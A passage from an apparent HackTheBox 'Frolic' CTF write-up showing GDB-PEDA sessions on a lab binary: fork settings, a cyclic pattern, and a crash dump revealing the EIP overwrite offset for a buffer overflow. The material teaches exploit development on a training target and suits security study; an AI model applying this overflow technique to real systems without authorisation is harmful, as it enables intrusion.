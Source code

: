 ```
Type "apropos word" to search for commands related to "word"...
Reading symbols from rop...
(No debugging symbols found in rop)

gdb-peda$ r "Hello World"
Starting program: /home/mvaliente/KaliShared/ctf/HackTheBox/Frolic/content/rop "Hello World"
[+] Message sent: Hello World[Inferior 1 (process 379963) exited normally]
Warning: not running
gdb-peda$ 
```

Notice that we get a message in GDB telling us that the the process was detached after a fork from the child process. We can fix that by setting the following commands in GDB.

```
gdb-peda$ set follow-fork-mode child
gdb-peda$ set detach-on-fork off
```

### Finding the offset

* **Create the pattern**

Create a randomized pattern in order to find the offset with the EIP value.

```
gdb-peda$ pattern_create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
```

* **Find the offset**

Run the binary with the pattern.

```
gdb-peda$ r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
Starting program: /home/mvaliente/KaliShared/ctf/HackTheBox/Frolic/content/rop 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x79 ('y')
EBX: 0xffffcd20 --> 0x2 
ECX: 0x0 
EDX: 0x5f ('_')
ESI: 0xf7faa000 --> 0x1e4d6c 
EDI: 0xf7faa000 --> 0x1e4d6c 
EBP: 0x31414162 ('bAA1')
ESP: 0xffffccf0 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x41474141 ('AAGA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41474141
[------------------------------------stack-------------------------------------]
0000| 0xffffccf0 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0004| 0xffffccf4 ("2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0xffffccf8 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0012| 0xffffccfc ("A3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0xffffcd00 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0020| 0xffffcd04 ("AA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0xffffcd08 ("AJAAfAA5AAKAAgAA6AAL")
0028| 0xffffcd0c ("fAA5AAKAAgAA6AAL")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
```